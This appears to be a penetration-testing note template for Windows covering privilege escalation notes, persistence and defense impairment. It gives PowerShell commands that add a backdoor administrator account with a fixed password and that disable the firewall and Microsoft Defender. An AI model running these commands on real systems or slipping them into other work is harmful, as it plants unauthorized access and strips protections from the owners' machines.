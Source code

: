 > At this point if you have found a viable vector, exploit it and document it in the block below. 

```ad-summary
title:Local Privilege Escalation Summary

Privilege escalation was performed on HOSTNAME via XXX.
___
**COMMANDS, NOTES, SCREENSHOTS HERE**
___
```

> If you haven't move on, you probably have powerful privileges on the domain or already found viable credentials.

## Persistence 

> You can create a backdoor user, or add an already compromised user to localgroup administrators, or more intricate attacks.
> Keep track of this backdoor on your tracker note.

```ad-seealso
title: Persistence Notes
collapse:yes

[Window’s Persistence – Manual Techniques - Juggernaut-Sec](https://juggernaut-sec.com/windows-persistence-manual-techniques/)
~~~dataview
list from #windows 
or #activedirectory 
and #persistence 
~~~
```

~~~ad-note
title:Persistence Commands

*Backdoor User Windows Persistence*

```powershell
net user backdoor Password123! /add; net localgroup administrators backdoor /add
```
~~~

## Defense Impairment

> If possible turn AV and Firewall off.

~~~ad-note
title:Defense Impairment Commands
*Firewall OFF*

```powershell
netsh Advfirewall set allprofiles state off
```

*Defender OFF*

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true
```

*Or using `sc.exe`*:

```powershell
sc.exe config WinDefend start= disabled
```

```powershell
sc.exe stop WinDefend
~~~